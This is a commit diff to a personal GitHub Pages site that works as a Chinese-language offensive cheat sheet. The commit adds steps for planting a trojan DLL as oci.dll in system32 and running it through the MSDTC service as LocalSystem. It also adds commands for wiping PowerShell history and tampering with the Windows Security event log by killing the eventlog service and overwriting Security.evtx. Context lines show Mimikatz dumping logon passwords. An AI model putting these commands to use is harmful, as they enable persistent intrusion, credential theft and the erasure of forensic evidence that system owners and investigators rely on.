

Before and after one commit to 9bie/9bie.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 984-1776 px from the top of the page. Before the commit the page ends 1701 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
添加擦除

```diff
--- a/index.html
+++ b/index.html
@@ -48,7 +48,32 @@
 	$ export TERM=xterm-256color
 	$ stty rows &lt;num&gt; columns &lt;cols&gt;
 	</pre>
+	<h2>windows 后门</h2>
+	把你的木马dll改成oci.dll，丢到system32下<br>
+	sc config msdtc start= auto<br>
+	sc config msdtc obj= LocalSystem<br>
+	sc start msdtc<br>
+	<h2>Windows 擦屁股</h2>
+	删除powershell日志：<br>
+	    C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt<br>
+	删除远程桌面日志:<br>
+	<pre>
+			# 导出IP为127.0.0.1的日志到新日志文件
+			wevtutil epl Security C:\Windows\System32\winevt\Logs\Security_new.evtx /q:"*[EventData[(Data[@Name='IpAddress']='127.0.0.1')]]" /ow:true
 
+
+			# 杀掉eventlog服务
+			tasklist /svc | findstr "eventlog"
+			taskkill /F /PID <PID>
+
+
+			# 将导出的日志覆盖掉原来的evtx
+			move /Y C:\Windows\System32\winevt\Logs\Security_new.evtx C:\Windows\System32\winevt\Logs\Security.evtx
+
+
+			# 启动eventlog服务
+			net start eventlog
+	</pre>
 	<h2>Mimikatz 非交互式</h2>
 	打印（输出）mimikatz执行过程的log : mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir <br>
 	读取的密码导出在mimikatz的目录输出到文本 : mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt<br>
```
